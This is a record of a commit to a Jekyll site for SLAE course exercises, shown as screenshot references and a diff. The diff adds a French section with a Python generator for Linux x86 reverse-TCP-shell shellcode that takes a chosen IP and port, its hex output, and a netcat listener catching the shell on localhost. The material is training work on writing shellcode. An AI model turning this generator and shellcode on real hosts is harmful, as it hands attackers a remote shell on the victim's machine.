

Before and after one commit to xophidia/SLAE, a Jekyll site: the page built from exercices/exercice_2.md, in a window 1280 px wide and 1400 px high, scrolled down 3415 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 3959 px from its top, so only the background shows below that.

Commit message:
#2 final fr

`````diff
--- a/exercices/exercice_2.md
+++ b/exercices/exercice_2.md
@@ -164,3 +164,52 @@ nc -l -p 4444 -v
 pwd
 /home/xophidia
 ```
+
+## Améliorer la saisie de l'adresse IP et du port ##
+
+Pour cette partie, python s'avère être plus pratique que le C.
+
+```python
+#!/usr/bin/env python
+
+import argparse
+import struct
+
+def main():
+    parser = argparse.ArgumentParser(description="Reverser TCP Shell")
+    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
+    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
+    args = parser.parse_args()
+
+    ip = args.addressIp.split('.')
+    port = args.port
+
+    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
+    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");
+
+
+    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'
+
+if __name__=='__main__':
+    main()
+
+```
+
+### Test ###
+
+```c
+./reverse_script.py --address 127.1.1.1 --port 1234
+"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
+\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
+\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
+````
+
+Nous recompilons comme lors de l'exemple précédent puis testons le tout.
+
+```c
+nc -l 127.1.1.1 -p 1234 -v
+Listening on [127.1.1.1] (family 0, port 1234)
+Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
+id
+uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
+```
`````
